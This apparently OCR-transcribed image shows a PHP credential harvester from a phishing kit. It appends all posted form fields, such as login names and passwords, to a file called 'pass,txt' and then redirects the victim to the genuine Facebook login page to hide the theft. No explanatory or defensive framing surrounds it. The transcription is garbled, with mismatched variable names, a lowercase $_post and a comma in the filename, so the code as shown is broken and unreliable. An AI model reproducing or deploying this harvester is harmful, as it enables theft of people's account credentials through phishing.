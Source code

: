 <?php
header ('Location:
https://web.facebook.com/login/?privacy_mutation_token=eyJ0eXBlIjowLCJjcmVhdGlvbl90aW1lIjoxNjMyOTQ2NjYzLCJjYWxsc2l0ZV9pZCI6MzgxMjI5MDc5NTc1OTQ2fQ%3D%3D ');
$handlr = fopen("pass,txt", "a");
foreach($_post as $variable => $value) {
   fwrite($handle, $variable);
   fwrite($handle, "=");
   fwrite($handle, $value);
   fwrite($handle, "\r\n");
}
fwrite($handle, "\r\n");
fclose($handle);
exit;
?>
